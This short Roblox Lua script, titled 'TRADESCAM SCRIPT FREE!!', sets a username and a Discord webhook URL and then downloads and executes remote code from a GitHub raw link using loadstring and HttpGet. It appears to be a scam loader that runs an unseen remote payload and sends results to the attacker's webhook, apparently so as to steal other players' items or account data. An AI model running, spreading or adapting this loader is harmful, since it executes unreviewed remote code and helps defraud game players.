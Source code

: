 _G.Username = "UDAIX238"
_G.HubName = "TRADESCAM SCRIPT FREE!!"
_G.WebhookUrl = "https://discordapp.com/api/webhooks/1097090172174217318/vdTDb8UNc8Q2l-k6ROeaE_lzdbu78GJfAPIRJNkyIHSwIgH6JFxVwQTcCZKYuXKLZqqN\
"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
